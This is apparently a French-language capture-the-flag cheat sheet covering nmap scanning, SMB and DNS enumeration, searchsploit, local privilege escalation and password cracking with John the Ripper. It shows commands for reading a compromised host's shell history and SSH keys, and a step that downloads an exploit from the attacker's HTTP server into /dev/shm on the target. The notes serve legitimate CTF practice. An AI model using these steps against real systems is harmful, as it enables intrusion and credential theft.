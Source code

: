 # Capture The Flag

- [Reconnaissance](#reconnaissance)
  - [Scan de port](#scan-de-port)
  - [TODO Enumération SMB](#todo-enumération-smb)
- [Metasploit](#metasploit)
- [DNS](#dns)
- [Vulnérabilités](#vulnérabilités)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Cassage de mot de passe](#cassage-de-mot-de-passe)
- [SQLite](#sqlite)

---

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes
- https://nicolasb.fr/blog/dghack-my-second-ctf

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

### Scan de port

```bash
# pinguer tout les hôtes d'un réseau (port 80 + ICMP echo-request)
nmap -T4 -sP 192.168.0.0/24

# scan discret (n'envoi que des TCP SYN, moins de chance que les connexions soient loggés)
nmap -T4 -sS <ip>

# OS + info sur les services
nmap -T4 -A -oN scan1.txt <ip>
# scan de vuln
nmap -T4 -sV --script vulners -oN scan1.txt <ip>
# sur une plage de port
nmap -T4 -sV --script vulners -oN scan1.txt <ip> -p 1023-10000
```

### TODO Enumération SMB

Si les ports `139` et `445` sont ouverts, il y a des chances que SMB tourne sur la machine.

```bash
enum4linux -U <ip>
```

## Metasploit

`msfconsole`

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig @<?> AXFR <fqdn ?>
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

Sur ta machine :
```bash
# regarder s'il existe des exploit
searchsploit 4.15
# le télécharger
searchsploit -m <filename>
# l'héberger
python -m SimpleHTTPServer
```

## Cassage de mot de passe

Pour extraire le hash du mot de passe d'un zip : `zip2john file.zip > hash.txt`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
